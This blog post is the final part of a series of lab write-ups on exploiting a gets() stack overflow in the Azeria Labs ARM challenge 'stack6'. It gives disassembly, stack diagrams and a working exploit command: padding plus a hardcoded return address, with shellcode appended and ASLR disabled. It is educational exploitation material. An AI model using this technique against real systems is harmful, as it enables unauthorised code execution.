 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part VII"
---
```


It's time to solve the last challenge of this 7 part serie.<!--more-->


## The vuln

This time the overflow is not in `main` but in called function named
`getpath` but besides that, it is the classical unbounded `gets`
vulnerability.

```nasm
pwndbg> pdisass &main 10
 ► 0x10560 <main>                 push   {fp, lr}
   0x10564 <main+4>               add    fp, sp, #4
   0x10568 <main+8>               sub    sp, sp, #8
   0x1056c <main+12>              str    r0, [fp, #-8]
   0x10570 <main+16>              str    r1, [fp, #-0xc]
   0x10574 <main+20>              bl     #getpath <getpath>

   0x10578 <main+24>              mov    r0, r3
   0x1057c <main+28>              sub    sp, fp, #4
   0x10580 <main+32>              pop    {fp, pc}
```

{% marginmarkdowncode
'
```nasm
pwndbg> p (char*)(*(0x104e8 + 0x60 + 0x8))
$7 = 0x105f8 "input path please: "

pwndbg> p (char*)(*(0x10524 + 0x2c + 0x8))
$8 = 0x1060c "bzzzt (%p)\n"

pwndbg> p (char*)(*(0x1053c + 0x18 + 0x8))
$9 = 0x10618 "got path %s\n"
```
'
'' %}

Here is the `getpath` function. I added some notes in addition to the
disassembly:

```nasm
pwndbg> pdisass &getpath 15
 ► 0x104d8 <getpath>        push   {r4, fp, lr}
   0x104dc <getpath+4>      add    fp, sp, #8
   0x104e0 <getpath+8>      sub    sp, sp, #0x4c
   0x104e4 <getpath+12>     mov    r4, lr
   0x104e8 <getpath+16>     ldr    r0, [pc, #0x60]
   0x104ec <getpath+20>     bl     #printf@plt <printf@plt> ; "input path please: "

   0x104f0 <getpath+24>     ldr    r3, [pc, #0x5c]
   0x104f4 <getpath+28>     ldr    r3, [r3]
   0x104f8 <getpath+32>     mov    r0, r3
   0x104fc <getpath+36>     bl     #fflush@plt <fflush@plt>

   0x10500 <getpath+40>     sub    r3, fp, #0x50
   0x10504 <getpath+44>     mov    r0, r3
   0x10508 <getpath+48>     bl     #gets@plt <gets@plt>

   0x1050c <getpath+52>     mov    r3, r4
   0x10510 <getpath+56>     str    r3, [fp, #-0x10]
   0x10514 <getpath+60>     ldr    r3, [fp, #-0x10]
   0x10518 <getpath+64>     and    r3, r3, #0xbf000000  ; bin 1011 1111 0...
   0x1051c <getpath+68>     cmp    r3, #0xbf000000
   0x10520 <getpath+72>     bne    #getpath+96 <getpath+96>

   0x10524 <getpath+76>     ldr    r0, [pc, #0x2c]
   0x10528 <getpath+80>     ldr    r1, [fp, #-0x10]
   0x1052c <getpath+84>     bl     #printf@plt <printf@plt> ; "bzzzt (%p)\n"

   0x10530 <getpath+88>     mov    r0, #1
   0x10534 <getpath+92>     bl     #_exit@plt <_exit@plt>

   0x10538 <getpath+96>     sub    r3, fp, #0x50
   0x1053c <getpath+100>    ldr    r0, [pc, #0x18]
   0x10540 <getpath+104>    mov    r1, r3
   0x10544 <getpath+108>    bl     #printf@plt <printf@plt> ; "got path %s\n"

   0x10548 <getpath+112>    sub    sp, fp, #8
   0x1054c <getpath+116>    pop    {r4, fp, pc}
```


Writing 0x50 bytes we overwrite the stack just before
writing the *ret* address: 0x4 more bytes and we are done.

```nasm
 ► 0x104d8 <getpath>        push   {r4, fp, lr}
   0x104dc <getpath+4>      add    fp, sp, #8
   ...
   0x10500 <getpath+40>     sub    r3, fp, #0x50
   0x10504 <getpath+44>     mov    r0, r3
   0x10508 <getpath+48>     bl     #gets@plt <gets@plt>
```

{% maincolumnditaa %}
 fp + 0x50            fp points here
   |                   |
   v                   v                      ||
-------- main ---------+------+---- start --  || stack before
   xxxxxxxx   r4   fp  |  lr  |  xxxxxxx  ... || the overflow
----- ^ ----- ^ -- ^ --+-- ^ -+-------------  ||
      |       |    |       |                  ||
   buffer    saved registers
{% endmaincolumnditaa %}


The stack pointer `sp` after `getpath`
returns will be at *4 bytes more*  than `fp` *before* the return:

```nasm
(gdb) x/1wx $fp   ; before getpath returns
0xbefffb84:     0x00010578 ; <-- ret address (to main)

(gdb) bt
#0  0x000104e8 in getpath ()
#1  0x00010578 in main ()
```

{% maincolumnditaa %}
                             sp points here
                              |
                              v               ||
-------- main ----------------+---- start --  || stack after
   AAAAAAAA   AA   AA      sp |  eeeeeee  ... || the overflow
----- ^ ----- ^ -- ^ ----- ^ -+- ^ ---------  ||
      |       |    |       |     |            ||
      \-- padding -/   befffb88  egg
{% endmaincolumnditaa %}

## The attack (without DEP and ASLR)

The `egg.text` is the same one used in the
[part 6](/book-of-gehn/articles/2021/01/26/Smashing-ARM-Stack-for-Fun-Part-VI.html).

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x88\xfb\xff\xbe' > exploit
pi@raspberrypi:~$ cat egg.text >> exploit

pi@raspberrypi:~$ rm -f pwned_proof

pi@raspberrypi:~$ setarch linux32 --addr-no-randomize /bin/bash

(aslr disabled) pi@raspberrypi:~$ cat exploit | ./stack6
(aslr disabled) pi@raspberrypi:~$ echo $?
0

(aslr disabled) pi@raspberrypi:~$ cat pwned_proof
pwn!
```

## Future work

This is the last part of the
[ARM challenges](https://github.com/azeria-labs/ARM-challenges) from
[Azeria Labs](https://azeria-labs.com).

However there are a lot of things to explore, tweak and stretch.

In the
[part 6](/book-of-gehn/articles/2021/01/26/Smashing-ARM-Stack-for-Fun-Part-VI.html)
I coded a ARM egg, the next obvious step would be write the same egg in
Thumb mode.

So far, the egg was always loaded in the stack and executed there. In
these modern days, the stack is **not** executable so it would be cool
to learn how to bypass this restriction (known as Data Execution
Prevention *DEP* or Write-xor-Execute *W+E*).


Since [part 5](/book-of-gehn/articles/2021/01/20/Smashing-ARM-Stack-for-Fun-Part-V.html)
we were *hardcoding* addresses. *Shame on me*.

Address Space Layout Randomization *(ASLR)* is a well established feature
of modern OS to randomize the *base address* of the loaded libraries.
Bypassing techniques exist since at least 2007 so it is a definitely
topic to learn.
